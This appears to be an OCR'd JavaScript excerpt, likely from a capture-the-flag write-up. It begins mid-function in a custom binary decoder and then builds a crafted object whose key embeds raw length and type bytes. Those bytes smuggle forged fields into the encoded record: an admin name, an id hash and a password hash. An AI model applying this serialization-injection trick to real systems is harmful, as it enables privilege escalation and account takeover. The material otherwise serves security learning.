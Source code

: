 ```javascript  
       k = b.toString('utf8', i, i+n), i += n  
       t = b.readUInt8(i), i += 1

       console.log(k, n);

       switch(t) {  
       case 1:  
           n = b.readUInt32LE(i), i += 4  
           v = b.toString('utf8', i, i+n), i += n  
           o[k] = v  
           break  
       case 2:  
           n = b.readUInt32LE(i), i += 4  
           o[k] = n  
           break  
       default:  
           break  
       }  
   }  
   return o  
}

// encode non printable  
var encodeNP = function(s){  
   var hex, c;  
   var result = '';  
   for (var i = 0; i < s.length; i++) {  
       c = s[i];  
       if (c >= 32 && c <= 126) {  
           result += String.fromCharCode(c);  
       } else {  
           hex = c.toString(16);  
           result += '\\u' + ('000'+hex).slice(-4);  
       }  
   }

   return result;  
}

const payload = {  
   'name': 'nytr0gen31337',  
   'age': 20,  
   'desc': 13,  
   "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000":
"\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +  
       "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +  
       "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +  
       "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",  
   'password':
'65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',  
   'id': 'deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'  
};  
console.log(payload);  
const plm = encode(payload);  
console.log(plm);  
console.log(encodeNP(new Buffer(plm, 'base64')));  
console.log(decode(plm));  
```
